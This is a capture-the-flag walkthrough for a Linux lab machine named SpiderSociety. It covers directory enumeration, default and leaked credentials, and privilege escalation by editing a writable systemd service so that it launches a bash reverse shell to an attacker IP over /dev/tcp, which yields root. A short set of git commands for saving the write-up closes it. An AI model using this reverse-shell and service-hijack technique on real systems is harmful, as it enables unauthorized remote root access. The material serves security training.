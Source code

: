 # 🕸️ SpiderSociety Walkthrough (Linux)

## 🧩 Initial Foothold

- Discovered the `/libspider` directory using `feroxbuster`.
- Logged in with default credentials:
  ```
  Username: admin
  Password: admin
  ```
- Navigated to the **Communications** section and found:
  ```
  FTP credentials: ss_ftpbckuser:ss_WeLoveSpiderSociety_From_Tech_Dept5937!
  ```
- Connected via `ftp` and browsed the `/libspider/` directory.
- Found a suspicious long filename that couldn’t be `cat`ed, so used:
  ```bash
  curl -i "http://192.168.163.214/libspider/.fuhfjkzbdsfuybefzmdbbzdcbhjzdbcukbdvbsdvuibdvnbdvenv"
  ```
- Extracted SSH credentials from that file:
  ```
  spidey:WithGreatPowerComesGreatSecurity99!
  ```

## 🚀 Privilege Escalation

- Ran `linpeas.sh`, which pointed to:
  ```
  /etc/systemd/system/spiderbackup.service
  ```
- The file was writable. Edited the `ExecStart` line:
  ```bash
  ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.194/80 0>&1'
  ```

- Then ran:
  ```bash
  sudo /bin/systemctl daemon-reload
  sudo /bin/systemctl restart spiderbackup.service
  ```

- Result: Got a reverse shell as **root** 🎉

---

## 📦 Git Commands

```bash
# Move the file to the walkthroughs folder
mv ~/Downloads/SpiderSociety.md ~/Downloads/walkthroughs_project_template/linux/SpiderSociety.md

# Navigate to the project directory
cd ~/Downloads/walkthroughs_project_template

# Stage changes
git add .

# Commit with a message
git commit -m "Added SpiderSociety (Linux) walkthrough"

# Push to GitHub
git push
```
